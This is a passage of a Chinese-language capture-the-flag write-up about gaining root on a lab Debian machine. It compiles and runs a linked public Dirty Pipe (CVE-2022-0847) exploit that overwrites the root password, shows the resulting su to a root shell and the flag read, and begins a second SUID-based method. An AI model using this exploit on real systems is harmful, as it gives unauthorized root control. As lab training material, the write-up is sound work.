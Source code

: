 Debian系统，内核版本为5.10，算是比较高的了。但是可以使用22年的dirty pipe进行提权。

vim编辑并gcc编译[exp](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c)，然后运行：

```shell
travis@debian:~$ ls
dirty_pipe  dirty_pipe.c  user.txt
travis@debian:~$ ./dirty_pipe
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
```

提示我们失败了，但是需要注意的是，exp已经成功修改了root的password为`aaron`，所以我们直接su命令然后输入该密码即可进入root的shell：

```shell
travis@debian:~$ su
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root
total 40
drwx------  3 root root 4096 Sep 25  2021 .
drwxr-xr-x 18 root root 4096 Nov  8 01:34 ..
-rw-------  1 root root   20 Sep 25  2021 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Sep 25  2021 .local
-rw-------  1 root root  647 Sep 25  2021 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root  217 Sep 25  2021 .wget-hsts
-rw-r--r--  1 root root   45 Sep 25  2021 root.txt
-rw-r--r--  1 root root  260 Sep 25  2021 system.info
# cat /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```

（比较可惜的是，这个shell没有自动补全，而且修改root用户密码也比较属于高危操作。）

## 2. SUID

第二种方式是通过SUID进行提权，因为在dexter用户目录下，存在一个note.txt给了提示信息：

```shell
dexter@debian:~$ ls
note.txt
dexter@debian:~$ cat note.txt
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
```

这里说有个可执行文件可能会存在漏洞。

首先看下哪些程序具有SUID：
